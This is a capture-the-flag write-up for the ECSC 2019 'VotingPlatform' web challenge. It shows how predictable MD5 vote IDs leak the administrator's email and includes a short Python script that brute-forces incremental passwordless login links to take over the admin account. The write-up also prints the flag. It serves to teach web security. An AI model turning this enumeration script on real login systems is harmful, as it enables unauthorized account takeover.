

# ECSC 2019
**Author: Feraru Mihail - mihailferaru2000@gmail.com - littlewho**

## VotingPlatform (150): Web
```
ECSC{64e6b8d6a3c45bdadf85b0a7b3bf33a78185613dd0ef9675dd02db2a11abc066}
```

### Proof of flag
```
```

### Summary
We have a voting platform on https://voting.challs.cybersecuritychallenge.ro/ . The website has the following features:
* registration
* login using username:password
* login using link sent via email
* vote
* see my vote
Each user's vote look like this https://voting.challs.cybersecuritychallenge.ro/dashboard/your-vote/eb160de1de89d9058fcb0b968dbbbd68 . Pasting the vote id into any online hash cracker will reveal that it is the user id hashed using MD5. 
Login links look like this https://voting.challs.cybersecuritychallenge.ro/old-check/5ca9eb010 . It seems that is not a hash, but it could be short enough to be bruteforced. 

### Proof of solving
I hashed id = 1 (`c4ca4238a0b923820dcc509a6f75849b`) and leaked the email of the administrator.

I request several login link and I observed that they are incremental, changing only the last 2, 3 or very rare 4 characters. I wrote a script that it trying to login onto random login links and the I started requesting few login links for the administrator. In few seconds we've got the flag.
Script:
```python
from itertools import product
from requests import get
k="abcdef1234567890"
url="https://voting.challs.cybersecuritychallenge.ro/old-check/5ca911{}"
for i in product(k, repeat=3):
    print (url.format(''.join(i)))
    rsp = get(url.format(''.join(i)))
    if "sqe027adVn@bkmvenjrbhvuerb23.com" in rsp.text:
        print ("found!!!!")
        print (rsp.text)
        break
```

